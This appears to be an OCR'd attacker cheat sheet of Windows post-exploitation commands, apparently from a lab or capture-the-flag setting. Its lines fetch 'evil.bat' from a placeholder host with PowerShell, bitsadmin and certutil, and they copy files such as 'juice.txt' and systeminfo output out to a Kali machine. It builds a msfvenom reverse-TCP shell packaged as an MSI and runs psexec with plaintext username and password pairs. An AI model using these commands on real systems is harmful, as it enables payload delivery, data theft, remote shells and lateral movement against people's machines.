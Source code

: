```
http://xxx/kinetic/evil.bat
 -OutFile C:\ProgramData\evil.bat

powershell Start-BitsTransfer -Source 
http://xxx/kinetic/evil.bat
 -Destination C:\ProgramData\evil.bat

python3 smbserver.py -username kali -password hunter2 -smb2support kali /tmp

net use x: 
\\
xxx\kali
 /user:kali hunter2

*SCP*

scp C:\ProgramData\juice.txt kali@xxx:/tmp/juice.txt

scp kram@polar:C:/ProgramData/juice.txt /tmp/juice2.txt

scp winPEAS.exe kram@polar:C:
\\
ProgramData
\\
winp.exe

*bitsadmin*

bitsadmin /transfer /download 
http://xxx/kinetic/evil.bat
 C:\ProgramData\evil.bat

*certutil*

certutil -urlcache -split -f 
http://xxx/kinetic/evil.bat
 C:\ProgramData\evil.bat

certutil -encode evil.bat evil.b64

certutil -decode evi.b64 evi.bat

## PrivEsc

systeminfo.exe > out.txt

scp C:\Users\kram\out.txt kali@xxx:/tmp/a.txt

python3 wes.py /tmp/a.txt -s critical -c

python3 wes.py /tmp/a.txt -e -c

python3 wes.py /tmp/out.txt -s critical -c

msfvenom -p windows/x64/shell/reverse_tcp LPORT=4444 LHOST=xxx -f msi > sploit.msi

## TokenAcctFilter

python3 psexec.py eve:eve@demo whoami

python3 psexec.py administrator:toor@demo whoami

python3 psexec.py zero/freya@femmefatale whoami
```